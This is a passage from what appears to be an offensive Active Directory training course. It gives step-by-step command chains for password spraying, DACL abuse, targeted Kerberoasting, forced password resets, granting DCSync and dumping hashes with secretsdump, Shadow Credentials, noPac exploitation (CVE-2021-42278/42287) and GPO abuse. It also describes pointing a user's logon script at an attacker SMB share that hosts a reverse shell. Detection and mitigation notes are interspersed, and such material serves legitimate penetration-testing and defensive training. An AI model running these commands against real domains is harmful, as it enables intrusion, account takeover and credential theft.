| Constrained Delegation | Minimize delegation; protect delegating account credentials; Protected Users |
| RBCD | Set MachineAccountQuota to 0; audit msDS-AllowedToActOnBehalfOfOtherIdentity; monitor Event ID 5136 |
| Golden Ticket | Rotate krbtgt twice; monitor for TGS without TGT; Defender for Identity |
| Silver Ticket | Enable PAC validation; rotate service account passwords; monitor anomalous 4624 |
| Pass-the-Ticket | Enable Credential Guard; restrict admin logons; short ticket lifetimes |
Methodology
- Enumerate valid domain usernames via Kerberos pre-auth responses:
kerbrute userenum --dc DC01.corp.local -d corp.local userlist.txt - Password spray via Kerberos (generates 4771 instead of 4625):
kerbrute passwordspray --dc DC01.corp.local -d corp.local userlist.txt 'Welcome2024!' - Brute force a single high-value user account:
kerbrute bruteuser --dc DC01.corp.local -d corp.local passwords.txt jsmith - Verify cracked or sprayed credentials against SMB:
crackmapexec smb DC01.corp.local -u jsmith -p 'Welcome2024!'
7. DACL Attacks I
Discretionary Access Control Lists (DACLs) define who can access Active Directory objects and what operations they can perform. Misconfigured DACLs are a common source of privilege escalation paths in AD environments. This module covers the fundamentals of ACL-based attacks, enumeration, and exploitation.
7.1 DACL Fundamentals
Every securable object in Active Directory (users, groups, computers, OUs, GPOs) has a Security Descriptor containing:
- DACL (Discretionary Access Control List): ordered list of Access Control Entries (ACEs) that define who can do what
- SACL (System Access Control List): defines auditing rules (which access attempts generate security events)
- Owner: the security principal that owns the object (owners can always modify the DACL)

Each ACE (Access Control Entry) contains:
| Field | Description |
|---|---|
| Trustee (SID) | The security principal the ACE applies to |
| Access Mask | Bit flags defining the granted or denied permissions |
| ACE Type | Allow or Deny |
| Inheritance Flags | Whether the ACE is inherited from a parent container |
| Object Type | For object-specific ACEs, the GUID of the property or extended right |
Key abusable permissions in AD:
| Permission | Effect |
|---|---|
| GenericAll | Full control over the object (read, write, delete, modify DACL) |
| GenericWrite | Write any property on the object |
| WriteProperty | Write a specific property (depends on ObjectType GUID) |
| WriteDacl | Modify the object's DACL (grant yourself any permission) |
| WriteOwner | Change the object's owner (owners implicitly have WriteDacl) |
| Self | Validated write (e.g., add yourself to a group) |
| ForceChangePassword | Reset the target user's password without knowing the current one |
| AllExtendedRights | All extended rights including ForceChangePassword and DCSync |
7.2 DACL Enumeration
Enumerating DACLs reveals which principals have dangerous permissions over AD objects. This is the foundation for building ACL-based attack chains.
7.2.1 PowerView ACL Enumeration
# Find all ACEs for a specific object
Get-DomainObjectAcl -Identity "Domain Admins" -ResolveGUIDs | Where-Object {$_.ActiveDirectoryRights -match "GenericAll|GenericWrite|WriteProperty|WriteDacl|WriteOwner|Self"} | Select-Object SecurityIdentifier, ActiveDirectoryRights, ObjectAceType
# Resolve SIDs to names
Get-DomainObjectAcl -Identity "Domain Admins" -ResolveGUIDs | Where-Object {$_.ActiveDirectoryRights -match "GenericAll|WriteProperty|Self"} | ForEach-Object {
$_ | Add-Member -NotePropertyName "IdentityName" -NotePropertyValue (Convert-SidToName $_.SecurityIdentifier) -PassThru
} | Select-Object IdentityName, ActiveDirectoryRights, ObjectAceType
# Find ACEs for the current user across all domain objects
Find-InterestingDomainAcl -ResolveGUIDs | Where-Object {$_.IdentityReferenceName -eq "currentuser"}7.2.2 BloodHound ACL Analysis
BloodHound automatically collects and visualizes ACL relationships. After importing SharpHound data, use these queries to identify ACL abuse paths:
# Cypher - find principals with GenericAll on Domain Admins
MATCH (n)-[:GenericAll]->(g:Group {name: "DOMAIN ADMINS@CORP.LOCAL"}) RETURN n.name
# Find all ACL-based attack paths from owned principals
MATCH p=shortestPath((n {owned: true})-[r:GenericAll|GenericWrite|WriteDacl|WriteOwner|ForceChangePassword*1..]->(m)) RETURN p
# Find users with DCSync rights
MATCH (n)-[:GetChanges|GetChangesAll]->(d:Domain) WITH n, d MATCH (n)-[:GetChanges]->(d) MATCH (n)-[:GetChangesAll]->(d) RETURN n.name7.2.3 Built-in Tools
# Get-Acl (AD PowerShell module required)
(Get-Acl "AD:\CN=Domain Admins,CN=Users,DC=corp,DC=local").Access | Where-Object {$_.ActiveDirectoryRights -match "GenericAll|WriteDacl"} | Format-Table IdentityReference, ActiveDirectoryRights
# icacls for file system ACLs (not AD, but useful for share permissions)
icacls \\DC01\SYSVOL7.2.4 SharpHound ACL Collection
# SharpHound - collect ACL data
.\SharpHound.exe -c ACL
# Full collection (includes ACL data)
.\SharpHound.exe -c All# BloodHound.py from Linux
bloodhound-python -u user -p 'Password1' -d corp.local -ns 10.10.10.1 -c aclMethodology
- Enumerate dangerous ACEs on high-value targets with PowerView:
Get-DomainObjectAcl -Identity "Domain Admins" -ResolveGUIDs | Where-Object {$_.ActiveDirectoryRights -match "GenericAll|GenericWrite|WriteProperty|WriteDacl|WriteOwner|Self"} | ForEach-Object { $_ | Add-Member -NotePropertyName "IdentityName" -NotePropertyValue (Convert-SidToName $_.SecurityIdentifier) -PassThru } | Select-Object IdentityName, ActiveDirectoryRights, ObjectAceType - Find ACEs for the current user across all domain objects:
Find-InterestingDomainAcl -ResolveGUIDs | Where-Object {$_.IdentityReferenceName -eq "currentuser"} - Collect ACL data with SharpHound for BloodHound analysis:
.\SharpHound.exe -c ACL - Alternatively, collect ACLs from Linux with BloodHound.py:
bloodhound-python -u user -p 'Password1' -d corp.local -ns 10.10.10.1 -c acl - Query BloodHound for ACL-based attack paths from owned principals:
MATCH p=shortestPath((n {owned: true})-[r:GenericAll|GenericWrite|WriteDacl|WriteOwner|ForceChangePassword*1..]->(m)) RETURN p - Query BloodHound for users with DCSync rights:
MATCH (n)-[:GetChanges]->(d:Domain) MATCH (n)-[:GetChangesAll]->(d) RETURN n.name - Validate findings with built-in AD PowerShell tools:
(Get-Acl "AD:\CN=Domain Admins,CN=Users,DC=corp,DC=local").Access | Where-Object {$_.ActiveDirectoryRights -match "GenericAll|WriteDacl"} | Format-Table IdentityReference, ActiveDirectoryRights
7.3 Targeted Kerberoasting and AddMembers
If you have write access to a user account (GenericAll, GenericWrite, or WriteProperty on the servicePrincipalName attribute), you can set an arbitrary SPN on the account, request a service ticket for that SPN, and crack it offline. After cracking, clean up by removing the SPN.
7.3.1 Targeted Kerberoasting
If you have write access to a user account (GenericAll, GenericWrite, or WriteProperty on the servicePrincipalName attribute), you can set an arbitrary SPN on the account, request a service ticket for that SPN, and crack it offline. After cracking, clean up by removing the SPN.
Setting an SPN on a Target Account
# PowerView - set an SPN
Set-DomainObject -Identity targetuser -SET @{serviceprincipalname='fake/YOURSPN'}
# Verify the SPN was set
Get-DomainUser targetuser -Properties serviceprincipalname# From Linux with bloodyAD
bloodyAD -d corp.local -u user -p 'Password1' --host DC01.corp.local set object targetuser servicePrincipalName -v 'fake/YOURSPN'Kerberoasting the Target
# Rubeus - kerberoast the specific user
.\Rubeus.exe kerberoast /user:targetuser /outfile:targeted.txt# Impacket
GetUserSPNs.py corp.local/user:Password1 -dc-ip 10.10.10.1 -request-user targetuser -outputfile targeted.txt
# Crack the hash
hashcat -m 13100 targeted.txt /usr/share/wordlists/rockyou.txtCleanup
# Remove the SPN
Set-DomainObject -Identity targetuser -Clear serviceprincipalname
# Verify
Get-DomainUser targetuser -Properties serviceprincipalname# From Linux
bloodyAD -d corp.local -u user -p 'Password1' --host DC01.corp.local set object targetuser servicePrincipalName7.3.2 AddMembers
If you have GenericAll, GenericWrite, or Self (Validated Write) permissions on a group object, you can add arbitrary members to that group. This is a direct privilege escalation path when the target group has elevated privileges.
GenericAll and GenericWrite on Groups
Both GenericAll and GenericWrite grant the ability to modify group membership. The Self (Validated Write / bf9679c0-0de6-11d0-a285-00aa003049e2) right specifically allows adding yourself as a member. BloodHound represents this as the AddMember edge.
Adding Members via PowerView
# Add a user to a group
Add-DomainGroupMember -Identity "Domain Admins" -Members "targetuser"
# Verify
Get-DomainGroupMember -Identity "Domain Admins" | Where-Object {$_.MemberName -eq "targetuser"}Adding Members via net.exe
# Built-in Windows command
net group "Domain Admins" targetuser /add /domain
# Verify
net group "Domain Admins" /domainAdding Members via Linux Tools
# bloodyAD
bloodyAD -d corp.local -u user -p 'Password1' --host DC01.corp.local add groupMember "Domain Admins" targetuser
# net rpc
net rpc group addmem "Domain Admins" targetuser -U corp.local/user%Password1 -S DC01.corp.local
# ldapmodify
ldapmodify -x -H ldap://DC01.corp.local -D "user@corp.local" -w 'Password1' <<EOF
dn: CN=Domain Admins,CN=Users,DC=corp,DC=local
changetype: modify
add: member
member: CN=targetuser,CN=Users,DC=corp,DC=local
EOFMethodology
- Set a fake SPN on the target user (requires GenericAll/GenericWrite/WriteProperty):
Set-DomainObject -Identity targetuser -SET @{serviceprincipalname='fake/YOURSPN'} Get-DomainUser targetuser -Properties serviceprincipalname - Alternatively, set the SPN from Linux with bloodyAD:
bloodyAD -d corp.local -u user -p 'Password1' --host DC01.corp.local set object targetuser servicePrincipalName -v 'fake/YOURSPN' - Kerberoast the targeted user and crack the hash:
.\Rubeus.exe kerberoast /user:targetuser /outfile:targeted.txt - From Linux, request the ticket and crack with hashcat:
GetUserSPNs.py corp.local/user:Password1 -dc-ip 10.10.10.1 -request-user targetuser -outputfile targeted.txt hashcat -m 13100 targeted.txt /usr/share/wordlists/rockyou.txt - Clean up by removing the SPN after cracking:
Set-DomainObject -Identity targetuser -Clear serviceprincipalname Get-DomainUser targetuser -Properties serviceprincipalname - Add a user to a privileged group (requires GenericAll/GenericWrite/Self on the group):
Add-DomainGroupMember -Identity "Domain Admins" -Members "targetuser" Get-DomainGroupMember -Identity "Domain Admins" | Where-Object {$_.MemberName -eq "targetuser"} - Alternatively, add group members from Linux:
bloodyAD -d corp.local -u user -p 'Password1' --host DC01.corp.local add groupMember "Domain Admins" targetuser
7.4 Password Abuse and Rights Manipulation
Several ACE types allow resetting or changing a target user's password without knowing the current password. This provides immediate access to the target account.
7.4.1 Password Abuse
Several ACE types allow resetting or changing a target user's password without knowing the current password. This provides immediate access to the target account.
ForceChangePassword
The User-Force-Change-Password extended right (GUID: 00299570-246d-11d0-a768-00aa006e0529) allows resetting a user's password. GenericAll and AllExtendedRights also include this capability. BloodHound represents this as the ForceChangePassword edge.
Using PowerView
# Reset the target's password
$newPass = ConvertTo-SecureString 'NewPassword123!' -AsPlainText -Force
Set-DomainUserPassword -Identity targetuser -AccountPassword $newPass
# Alternative using net.exe
net user targetuser NewPassword123! /domainUsing rpcclient
# rpcclient - reset password
rpcclient -U 'corp.local/user%Password1' DC01.corp.local -c "setuserinfo2 targetuser 23 'NewPassword123!'"Using bloodyAD
# bloodyAD
bloodyAD -d corp.local -u user -p 'Password1' --host DC01.corp.local set password targetuser 'NewPassword123!'
# Impacket changepasswd.py (requires current password or relevant rights)
changepasswd.py corp.local/targetuser:'OldPass'@DC01.corp.local -newpass 'NewPassword123!'7.4.2 Granting Rights and Ownership
Higher-level DACL permissions (WriteDacl, WriteOwner, GenericAll) allow modifying the security descriptor itself, enabling you to grant yourself any permission on the target object.
WriteDacl Abuse
WriteDacl allows modifying the DACL on the target object. You can add an ACE granting yourself GenericAll, DCSync rights, or any other permission.
# PowerView - grant yourself GenericAll on the target object
Add-DomainObjectAcl -TargetIdentity "Domain Admins" -PrincipalIdentity currentuser -Rights All
# Grant DCSync rights on the domain object
Add-DomainObjectAcl -TargetIdentity "DC=corp,DC=local" -PrincipalIdentity currentuser -Rights DCSync# From Linux with bloodyAD
bloodyAD -d corp.local -u user -p 'Password1' --host DC01.corp.local add genericAll 'CN=Domain Admins,CN=Users,DC=corp,DC=local' currentuser
# dacledit.py (Impacket)
dacledit.py -action write -rights DCSync -principal currentuser corp.local/user:Password1 -dc-ip 10.10.10.1WriteOwner Abuse
WriteOwner allows changing the owner of the object. Since owners implicitly have WriteDacl, this is a two-step escalation: change ownership, then modify the DACL.
# PowerView - take ownership
Set-DomainObjectOwner -Identity "Domain Admins" -OwnerIdentity currentuser
# Now modify the DACL (as owner)
Add-DomainObjectAcl -TargetIdentity "Domain Admins" -PrincipalIdentity currentuser -Rights All# From Linux with bloodyAD
bloodyAD -d corp.local -u user -p 'Password1' --host DC01.corp.local set owner 'CN=Domain Admins,CN=Users,DC=corp,DC=local' currentuser
# Then grant yourself rights
bloodyAD -d corp.local -u user -p 'Password1' --host DC01.corp.local add genericAll 'CN=Domain Admins,CN=Users,DC=corp,DC=local' currentuserGenericAll Exploitation
GenericAll on a user object allows: resetting the password, setting an SPN (targeted Kerberoasting), modifying the msDS-KeyCredentialLink (Shadow Credentials), modifying the scriptPath (logon script attack), and adding the account to any group.
GenericAll on a computer object allows: configuring RBCD, reading LAPS passwords (if LAPS is deployed), and modifying the msDS-KeyCredentialLink.
GenericAll on a group object allows: adding/removing members, modifying group properties.
GenericAll on a GPO allows: modifying the GPO to achieve code execution on all machines the GPO applies to.
Granting DCSync Rights
DCSync requires two specific extended rights on the domain object:
- DS-Replication-Get-Changes (GUID:
1131f6aa-9c07-11d1-f79f-00c04fc2dcd2) - DS-Replication-Get-Changes-All (GUID:
1131f6ad-9c07-11d1-f79f-00c04fc2dcd2)
# Grant DCSync rights via PowerView
Add-DomainObjectAcl -TargetIdentity "DC=corp,DC=local" -PrincipalIdentity currentuser -Rights DCSync
# Verify
Get-DomainObjectAcl -Identity "DC=corp,DC=local" -ResolveGUIDs | Where-Object {$_.SecurityIdentifier -eq (Get-DomainUser currentuser).objectsid} | Select-Object ActiveDirectoryRights, ObjectAceType# DCSync after granting rights
secretsdump.py corp.local/currentuser:Password1@DC01.corp.local -just-dc-user AdministratorMethodology
- Force-reset a target user password with PowerView (ForceChangePassword/GenericAll):
$newPass = ConvertTo-SecureString 'NewPassword123!' -AsPlainText -Force Set-DomainUserPassword -Identity targetuser -AccountPassword $newPass - Reset password from Linux with rpcclient or bloodyAD:
rpcclient -U 'corp.local/user%Password1' DC01.corp.local -c "setuserinfo2 targetuser 23 'NewPassword123!'" bloodyAD -d corp.local -u user -p 'Password1' --host DC01.corp.local set password targetuser 'NewPassword123!' - Abuse WriteDacl to grant yourself GenericAll on a target object:
Add-DomainObjectAcl -TargetIdentity "Domain Admins" -PrincipalIdentity currentuser -Rights All - Abuse WriteOwner to take ownership, then modify the DACL:
Set-DomainObjectOwner -Identity "Domain Admins" -OwnerIdentity currentuser Add-DomainObjectAcl -TargetIdentity "Domain Admins" -PrincipalIdentity currentuser -Rights All - Perform the same WriteOwner chain from Linux:
bloodyAD -d corp.local -u user -p 'Password1' --host DC01.corp.local set owner 'CN=Domain Admins,CN=Users,DC=corp,DC=local' currentuser bloodyAD -d corp.local -u user -p 'Password1' --host DC01.corp.local add genericAll 'CN=Domain Admins,CN=Users,DC=corp,DC=local' currentuser - Grant DCSync rights on the domain object:
Add-DomainObjectAcl -TargetIdentity "DC=corp,DC=local" -PrincipalIdentity currentuser -Rights DCSync - Alternatively, grant DCSync from Linux with dacledit.py:
dacledit.py -action write -rights DCSync -principal currentuser corp.local/user:Password1 -dc-ip 10.10.10.1 - Execute DCSync to dump credentials:
secretsdump.py corp.local/currentuser:Password1@DC01.corp.local -just-dc-user Administrator
7.5 DACL Attack Summary
| Attack | Required Right | Impact |
|---|---|---|
| Targeted Kerberoasting | GenericAll / GenericWrite / WriteProperty (SPN) | Offline password cracking of target account |
| Add Group Member | GenericAll / GenericWrite / Self on group | Privilege escalation via group membership |
| Force Change Password | ForceChangePassword / GenericAll / AllExtendedRights | Immediate account takeover |
| WriteDacl Abuse | WriteDacl | Grant any permission (including DCSync) |
| WriteOwner Abuse | WriteOwner | Take ownership, then WriteDacl |
| GenericAll on User | GenericAll | Password reset, SPN set, Shadow Credentials, logon script |
| GenericAll on Computer | GenericAll | RBCD, LAPS password, Shadow Credentials |
| Grant DCSync | WriteDacl on domain object | Full domain compromise via secretsdump |
Detection strategies:
- Event ID 5136 (Directory Service Changes): monitor DACL modifications on sensitive objects (Domain Admins, Domain Controllers OU, domain root)
- Event ID 4662 (Operation on directory object): audit access to critical AD objects
- Event ID 4738 (User account changed): detect SPN modifications and password resets
- Event ID 4728/4732/4756 (Member added to security-enabled group): detect unauthorized group membership changes
- Use BloodHound regularly to identify and remediate dangerous ACL paths before attackers discover them
- Apply the principle of least privilege to all ACL assignments; remove unnecessary
GenericAllandWriteDaclpermissions - Enable Advanced Security Audit Policy for Directory Service Access on all Domain Controllers
8. DACL Attacks II
This module builds on DACL Attacks I with advanced techniques that exploit certificate-based authentication, logon script manipulation, SPN abuse, machine account spoofing, and Group Policy Objects. These attacks leverage write permissions over specific Active Directory attributes to achieve credential theft, code execution, and privilege escalation.
8.1 Shadow Credentials
Shadow Credentials abuse the msDS-KeyCredentialLink attribute to add an attacker-controlled certificate for PKINIT pre-authentication. If an attacker has write access to this attribute on a user or computer object, they can authenticate as that principal without knowing its password.

8.1.1 PKINIT and msDS-KeyCredentialLink
PKINIT is a Kerberos extension that allows certificate-based pre-authentication. Windows Hello for Business (WHfB) uses the msDS-KeyCredentialLink attribute to store public key credentials for passwordless authentication. Each entry contains a Key Credential structure with a public key, device ID, and creation timestamp. During AS-REQ, the client signs the authenticator with the corresponding private key, and the KDC validates it against the stored public key.
The attribute accepts multiple entries, so an attacker can add a new key credential without removing existing ones.
8.1.2 Attack Prerequisites
- Write access to
msDS-KeyCredentialLinkon the target object (via GenericAll, GenericWrite, WriteProperty, or similar) - AD CS must be deployed in the domain (the KDC needs a certificate for PKINIT validation)
- Domain functional level of Windows Server 2016 or higher
8.1.3 Exploitation with Whisker
Whisker is a C# tool that manipulates msDS-KeyCredentialLink directly.
# List existing key credentials
Whisker.exe list /target:svc_backup
# Add a new shadow credential
Whisker.exe add /target:svc_backup /domain:corp.local /dc:dc01.corp.local
# The output provides a Rubeus command to request a TGT
Rubeus.exe asktgt /user:svc_backup /certificate:<base64_cert> /password:<generated_pass> /domain:corp.local /dc:dc01.corp.local /getcredentials /show /nowrap
# Remove the shadow credential after use
Whisker.exe remove /target:svc_backup /deviceid:<device_id>8.1.4 Exploitation with pywhisker
pywhisker is the Python equivalent for Linux-based attacks.
# List key credentials on the target
python3 pywhisker.py -d corp.local -u attacker -p 'Password123' --target svc_backup --action list
# Add a shadow credential
python3 pywhisker.py -d corp.local -u attacker -p 'Password123' --target svc_backup --action add
# Use the generated PFX with PKINITtools to get a TGT
python3 gettgtpkinit.py -cert-pfx <output.pfx> -pfx-pass <password> corp.local/svc_backup <output.ccache>
# Clean up
python3 pywhisker.py -d corp.local -u attacker -p 'Password123' --target svc_backup --action remove --device-id <device_id>8.1.5 UnPAC-the-Hash
After obtaining a TGT via PKINIT, the UnPAC-the-hash technique extracts the NTLM hash from the PAC. The TGT obtained through certificate authentication contains an encrypted PAC with the account's NT hash in the PAC_CREDENTIAL_INFO structure. Requesting a service ticket to the account itself (U2U) and decrypting the PAC reveals the hash.

# Extract the NT hash from a PKINIT TGT
python3 getnthash.py -key <AS-REP_encryption_key> corp.local/svc_backup# With Rubeus, the /getcredentials flag performs UnPAC-the-hash automatically
Rubeus.exe asktgt /user:svc_backup /certificate:<base64_cert> /password:<pass> /getcredentials /show /nowrap8.1.6 Detection
- Event ID 5136 (Directory Service Changes) for modifications to
msDS-KeyCredentialLink - Event ID 4768 (TGT requested) with pre-authentication type 16 (PKINIT) for accounts that do not normally use certificate authentication
- Monitor for Whisker or pywhisker artifacts: certificate files (.pfx), unusual LDAP modify operations on KeyCredentialLink
- Audit
msDS-KeyCredentialLinkentries and compare against Windows Hello for Business enrollment records
Methodology
- Confirm write access to
msDS-KeyCredentialLinkon the target (GenericAll, GenericWrite, or WriteProperty) and verify AD CS is deployed in the domain - List existing key credentials on the target:
Whisker.exe list /target:svc_backup - Add a shadow credential with Whisker (Windows) or pywhisker (Linux):
Whisker.exe add /target:svc_backup /domain:corp.local /dc:dc01.corp.local - Linux alternative with pywhisker:
python3 pywhisker.py -d corp.local -u attacker -p 'Password123' --target svc_backup --action add - Request a TGT using the generated certificate:
Rubeus.exe asktgt /user:svc_backup /certificate:<base64_cert> /password:<generated_pass> /domain:corp.local /dc:dc01.corp.local /getcredentials /show /nowrap - Extract the NT hash via UnPAC-the-hash (Linux):
python3 getnthash.py -key <AS-REP_encryption_key> corp.local/svc_backup - Clean up by removing the shadow credential:
Whisker.exe remove /target:svc_backup /deviceid:<device_id>
8.2 Logon Scripts and SPN Jacking
The scriptPath attribute on a user object defines a logon script that executes when the user logs in. An attacker with write access to this attribute can point it to a malicious script hosted on a network share, achieving code execution in the context of the target user.
8.2.1 Logon Scripts
The scriptPath attribute on a user object defines a logon script that executes when the user logs in. An attacker with write access to this attribute can point it to a malicious script hosted on a network share, achieving code execution in the context of the target user.
scriptPath Attribute
The scriptPath attribute stores a relative path to a script in the NETLOGON share (\\domain\NETLOGON\). When a user logs in, Windows automatically maps the NETLOGON share and executes the script. The path can also be an absolute UNC path to any accessible share.
# Check the current scriptPath for a user
Get-ADUser -Identity targetuser -Properties scriptPath | Select-Object scriptPath
# Via LDAP
Get-ADUser -LDAPFilter "(scriptPath=*)" -Properties scriptPath | Select-Object samAccountName, scriptPathExploitation via WriteProperty
If the attacker has WriteProperty on the scriptPath attribute (or broader write rights like GenericAll/GenericWrite), they can set it to a UNC path pointing to a malicious script.
- Host a malicious script (e.g., a reverse shell or Beacon stager) on an attacker-controlled SMB share
- Modify the target user's
scriptPathto point to the share - Wait for the user to log in; the script executes in their session
Setting Logon Scripts via PowerView
# Set a logon script using PowerView
Set-DomainObject -Identity targetuser -Set @{scriptPath="\\attacker-share\scripts\payload.bat"} -Verbose
# Verify the change
Get-DomainUser -Identity targetuser -Properties scriptPath
# Alternative using Set-ADUser
Set-ADUser -Identity targetuser -ScriptPath "\\attacker-share\scripts\payload.bat"Cleanup
# Clear the scriptPath attribute
Set-DomainObject -Identity targetuser -Clear scriptPath -Verbose
# Or restore the original value
Set-DomainObject -Identity targetuser -Set @{scriptPath="original_script.bat"}8.2.2 SPN Jacking
SPN Jacking is a technique that combines write access over the servicePrincipalName attribute with Kerberoasting. By setting an SPN on a target account that does not already have one, the attacker makes it Kerberoastable and can then crack the service ticket offline to recover the plaintext password.
How SPN Jacking Works
- Identify a target user account with a weak password that does not have an SPN set
- Use write access (GenericAll, GenericWrite, WriteProperty on servicePrincipalName) to add an arbitrary SPN
- Request a Kerberos service ticket for the new SPN (Kerberoast)
- Crack the ticket offline to recover the password
- Remove the SPN to clean up
Prerequisites
- Write access to the
servicePrincipalNameattribute on the target user - The target must be a user account (not a computer account, which already has SPNs)
- The SPN chosen must not conflict with existing SPNs in the domain
Exploitation Steps
# Check if the target has any existing SPNs
Get-DomainUser -Identity targetuser -Properties servicePrincipalName
# Add a fake SPN using PowerView
Set-DomainObject -Identity targetuser -Set @{servicePrincipalName='http/fakeservice.corp.local'}
# Kerberoast the target
Rubeus.exe kerberoast /user:targetuser /nowrap
# Clean up: remove the SPN
Set-DomainObject -Identity targetuser -Clear servicePrincipalName# From Linux with targeted Kerberoasting
python3 targetedKerberoast.py -d corp.local -u attacker -p 'Password123' --dc-ip 10.10.10.1
# Manual SPN addition with ldapmodify
# (modify targetuser, add servicePrincipalName: http/fakeservice.corp.local)Detection
- Event ID 5136 for
servicePrincipalNameattribute modifications - Monitor for SPNs being added and removed in short succession
- Correlate SPN changes with subsequent TGS-REQ (Event ID 4769) for the same SPN
- Audit which principals have write access to servicePrincipalName on sensitive accounts
Methodology
- Enumerate existing logon scripts on target users:
Get-ADUser -LDAPFilter "(scriptPath=*)" -Properties scriptPath | Select-Object samAccountName, scriptPath - Host a malicious script (reverse shell or stager) on an attacker-controlled SMB share, then set the target user's scriptPath:
Set-DomainObject -Identity targetuser -Set @{scriptPath="\\attacker-share\scripts\payload.bat"} -Verbose - Wait for the target user to log in, then restore or clear the scriptPath:
Set-DomainObject -Identity targetuser -Set @{scriptPath="original_script.bat"} - For SPN Jacking, verify the target user has no existing SPNs:
Get-DomainUser -Identity targetuser -Properties servicePrincipalName - Add a fake SPN to make the account Kerberoastable:
Set-DomainObject -Identity targetuser -Set @{servicePrincipalName='http/fakeservice.corp.local'} - Kerberoast the target and crack the ticket offline:
Rubeus.exe kerberoast /user:targetuser /nowrap - Clean up by removing the SPN:
Set-DomainObject -Identity targetuser -Clear servicePrincipalName
8.3 sAMAccountName Spoofing
The NoPAC attack chain exploits CVE-2021-42278 and CVE-2021-42287 to impersonate any domain user, including Domain Admins, by manipulating the sAMAccountName attribute of a machine account. A standard domain user (with the default MachineAccountQuota of 10) can escalate to Domain Admin.
8.3.1 CVE-2021-42278 and CVE-2021-42287
- CVE-2021-42278: The KDC does not validate that a machine account's
sAMAccountNameends with$. An attacker can rename a machine account to match a privileged user's sAMAccountName. - CVE-2021-42287: When the KDC cannot find the account named in a TGT during S4U2self, it appends
$and searches again. If the original machine account has been renamed back, the KDC resolves the request against the target (e.g., the domain controller's machine account).
Combined, an attacker creates a machine account, renames it to a DC's sAMAccountName (without the $), requests a TGT, renames the machine account back, then uses the TGT for S4U2self to obtain a service ticket as any user.
8.3.2 Machine Account Manipulation
# Create a machine account (default MachineAccountQuota allows this)
New-MachineAccount -MachineAccount "FAKECOMP" -Password $(ConvertTo-SecureString 'FakePass123!' -AsPlainText -Force)
# Rename the machine account to match the DC's sAMAccountName (without $)
Set-MachineAccountAttribute -MachineAccount "FAKECOMP" -Value "DC01" -Attribute samaccountname
# Request a TGT as "DC01"
Rubeus.exe asktgt /user:DC01 /password:FakePass123! /domain:corp.local /dc:dc01.corp.local /nowrap
# Rename the machine account back
Set-MachineAccountAttribute -MachineAccount "FAKECOMP" -Value "FAKECOMP$" -Attribute samaccountname
# Use S4U2self with the TGT to get a service ticket as Domain Admin
Rubeus.exe s4u /impersonateuser:Administrator /self /altservice:cifs/dc01.corp.local /dc:dc01.corp.local /ptt /ticket:<tgt_base64>8.3.3 Exploitation from Linux
# noPac.py (automated exploit)
python3 noPac.py corp.local/lowpriv:'Password123' -dc-ip 10.10.10.1 -dc-host dc01 --impersonate Administrator -dump
# sam-the-admin (alternative tool)
python3 sam_the_admin.py corp.local/lowpriv:'Password123' -dc-ip 10.10.10.1 -shell8.3.4 Exploitation from Windows
# Using noPac.exe (C# port)
noPac.exe -domain corp.local -user lowpriv -pass "Password123" /dc dc01.corp.local /mAccount FAKECOMP /mPassword "FakePass123!" /service cifs /ptt8.3.5 Mitigation
- Apply Microsoft patches KB5008102 and KB5008380 (November 2021)
- Set
MachineAccountQuotato 0 to prevent standard users from creating machine accounts - Monitor Event ID 4741 (computer account created) and Event ID 4742 (computer account changed) for sAMAccountName modifications
- Enable PAC validation on all services
Methodology
- Create a machine account (requires MachineAccountQuota > 0):
New-MachineAccount -MachineAccount "FAKECOMP" -Password $(ConvertTo-SecureString 'FakePass123!' -AsPlainText -Force) - Rename the machine account to the DC's sAMAccountName (without the trailing $):
Set-MachineAccountAttribute -MachineAccount "FAKECOMP" -Value "DC01" -Attribute samaccountname - Request a TGT as the spoofed DC name:
Rubeus.exe asktgt /user:DC01 /password:FakePass123! /domain:corp.local /dc:dc01.corp.local /nowrap - Rename the machine account back so the KDC resolves the TGT to the real DC:
Set-MachineAccountAttribute -MachineAccount "FAKECOMP" -Value "FAKECOMP$" -Attribute samaccountname - Use S4U2self to obtain a service ticket impersonating a Domain Admin:
Rubeus.exe s4u /impersonateuser:Administrator /self /altservice:cifs/dc01.corp.local /dc:dc01.corp.local /ptt /ticket:<tgt_base64> - Linux automated alternative with noPac.py:
python3 noPac.py corp.local/lowpriv:'Password123' -dc-ip 10.10.10.1 -dc-host dc01 --impersonate Administrator -dump
8.4 GPO Attacks
Group Policy Objects (GPOs) are containers for policy settings applied to users and computers within an Active Directory domain. GPOs are linked to Sites, Domains, or Organizational Units (OUs) and processed during computer startup, user logon, and at periodic refresh intervals (default 90 minutes with a random offset of up to 30 minutes).
8.4.1 Introduction to Group Policy Objects
Group Policy Objects (GPOs) are containers for policy settings applied to users and computers within an Active Directory domain. GPOs are linked to Sites, Domains, or Organizational Units (OUs) and processed during computer startup, user logon, and at periodic refresh intervals (default 90 minutes with a random offset of up to 30 minutes).

Key GPO concepts:
- GPO Structure: Each GPO has two components: a Group Policy Container (GPC) stored in AD (CN=Policies in the System container) and a Group Policy Template (GPT) stored on SYSVOL as a folder named by the GPO's GUID
- Processing Order: Local Policy, Site, Domain, OU (LSDOU). Policies applied later override earlier ones. Enforced GPOs override Block Inheritance.
- Security Filtering: By default, GPOs apply to Authenticated Users. Security filtering can restrict application to specific groups or users.
- WMI Filters: Additional conditions (OS version, hardware specs) that determine whether a GPO applies to a given computer
# List all GPOs in the domain
Get-GPO -All | Select-Object DisplayName, Id, GpoStatus
# View GPO details
Get-GPOReport -Name "Default Domain Policy" -ReportType Html -Path .\gpo_report.html
# Check which OUs a GPO is linked to
Get-GPO -Name "Server Hardening" | ForEach-Object {
$_ | Get-GPOReport -ReportType Xml | Select-Xml -XPath "//LinksTo" | ForEach-Object { $_.Node }
}8.4.2 GPO Attacks
If an attacker gains write access to a GPO that is linked to an OU containing target computers or users, they can modify the GPO to achieve code execution, credential harvesting, or privilege escalation on all affected systems.
GPO Abuse Prerequisites
- Write access to the GPO (GPC and GPT): typically via GenericAll, GenericWrite, or specific write permissions
- The GPO must be linked to an OU containing target objects (computers or users)
- The target objects must have Read and Apply Group Policy permissions (default for Authenticated Users)
# Enumerate GPO permissions with PowerView
Get-DomainGPO | Get-DomainObjectAcl -ResolveGUIDs | Where-Object {
$_.ActiveDirectoryRights -match "WriteProperty|WriteDacl|GenericAll|GenericWrite" -and
$_.SecurityIdentifier -match "S-1-5-21-.*-\d{4,}$"
} | Select-Object ObjectDN, ActiveDirectoryRights, SecurityIdentifierImmediate Scheduled Tasks
The most common GPO abuse technique. An Immediate Scheduled Task runs once when Group Policy refreshes, executing an arbitrary command as SYSTEM (for computer configuration) or as the logged-on user (for user configuration).
